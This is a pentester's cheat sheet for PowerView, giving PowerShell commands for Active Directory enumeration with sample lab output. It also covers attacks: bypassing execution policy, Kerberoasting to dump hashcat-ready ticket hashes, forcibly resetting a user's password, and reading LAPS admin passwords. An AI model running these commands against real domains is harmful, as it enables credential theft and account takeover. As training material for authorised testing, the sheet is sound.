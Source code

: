 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerView

```powershell
# Execution policy bypass
powershell -ep bypass
# Import PowerView
Import-Module .\PowerView.ps1
```

## Enumeration

{% tabs %}
{% tab title="Domain Info" %}
```powershell
# List domain information
Get-NetDomain
```
{% endtab %}

{% tab title="Users" %}
```powershell
# List domain users (all attributes)
Get-NetUser
# List the specified attributes of all domain users
Get-NetUser | select cn,pwdlastset,lastlogon
```
{% endtab %}

{% tab title="Groups" %}
```powershell
# List domain groups
Get-NetGroup
# List the members of the specified group
Get-NetGroup 'Domain Admins' | select member
```
{% endtab %}

{% tab title="Hosts" %}
```powershell
# List computer objects
Get-NetComputer
# List the specified attributes of all computer objects
Get-NetComputer | select operatingsystem,dnshostname
```
{% endtab %}

{% tab title="Shares" %}
```powershell
# List all domain shares
Find-DomainShare
# List all domain shares available to the current user
Find-DomainShare -CheckShareAccess
```
{% endtab %}

{% tab title="SPNs" %}
```powershell
# List SPN accounts
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Local Admin" %}
Scan the network to find out if the current user has administrative access on other computers.

```powershell
Find-LocalAdminAccess
```

> _This command uses the `OpenServiceW` function to interact with the **Service Control Manager (SCM)** on a target machine. The SCM manages installed services and drivers. PowerView tries to connect to it with `SC_MANAGER_ALL_ACCESS` permissions, which **require administrative rights**. If it success, it means the current user has **administrator privileges** on that machine._
{% endtab %}

{% tab title="Logged-In Users" %}
Enumerate logged-in users.

```powershell
Get-NetSession -ComputerName web01
```

_This command uses the `NetWkstaUserEnum` and `NetSessionEnum` Windows APIs. `NetWkstaUserEnum` requires administrative privileges, while `NetSessionEnum` does not._
{% endtab %}

{% tab title="ACEs" %}
```powershell
> Get-ObjectAcl -Identity stephanie
...
ObjectDN               : CN=stephanie,CN=Users,DC=corp,DC=com
ObjectSID              : S-1-5-21-1987370270-658905905-1781884369-1104
ActiveDirectoryRights  : ReadProperty
...
SecurityIdentifier     : S-1-5-21-1987370270-658905905-1781884369-553
```

The output contains two SIDs that represent objects in AD. We can convert those into a readable domain object name.&#x20;

> The `ActiveDirectoryRights` property describes the type of permission applied to the object. The `SecurityIdentifier` tells us who has the `ReadProperty` permission. In this case, the `RAS and IAS Servers` group has `ReadProperty` access rights to the `stephanie` user.

```powershell
> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-1104
CORP\stephanie
> Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
CORP\RAS and IAS Servers
```
{% endtab %}

{% tab title="ACLs" %}
{% code overflow="wrap" %}
```powershell
# find user's SID
$sid = Convert-NameToSid <USER>
# search for all domain objects that the user has rights over
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? ($_.SecurityIdentifier -eq $sid)
```
{% endcode %}

The `ObjectAceType` fields tells us what ACE the user has over the object.

<figure><img src="../../.gitbook/assets/pv_objectacetype.png" alt=""><figcaption></figcaption></figure>

In case the script cannot be used, we can use native cmdlets. To convert the GUID into a human-readable format we can either perform a reverse search as shown below, or just google the GUID.

{% code overflow="wrap" %}
```powershell
# make a list of all domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
# retrieve ACL information about the target user
foreach($line in [System.IO.File]::ReadLines("C:\Windows\Temp\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<DOMAIN>\\<USER>'}}
# convert GUID into a human-readable format
$guid= "00299570-246d-11d0-a768-00aa006e0529"
# reverse search to map the name to GUID
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
{% endcode %}
{% endtab %}

{% tab title="Permissions" %}
{% code overflow="wrap" %}
```powershell
# List all objects for which the current user has the specified permission
> Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier, ActiveDirectoryRights

SecurityIdentifier                            ActiveDirectoryRights
------------------                            ---------------------
S-1-5-21-1987370270-658905905-1781884369-512             GenericAll
S-1-5-21-1987370270-658905905-1781884369-1104            GenericAll
S-1-5-32-548                                             GenericAll
S-1-5-18                                                 GenericAll
S-1-5-21-1987370270-658905905-1781884369-519             GenericAll

# Convert SIDs to a readable format
> "S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName

CORP\Domain Admins
CORP\stephanie
BUILTIN\Account Operators
Local System
CORP\Enterprise Admins
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Attacks

{% tabs %}
{% tab title="Kerberoasting" %}
{% code overflow="wrap" %}
```powershell
# Enumerate Kerberoastable accounts
Get-DomainUser * -SPN | select samaccountname
# Kerberoast the enumerated accounts
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```
{% endcode %}
{% endtab %}

{% tab title="Password Change" %}
{% code overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force ) -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="LAPS Password" %}
{% code overflow="wrap" %}
```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="PowerSploit" %}
{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1" %}
{% endtab %}
{% endtabs %}
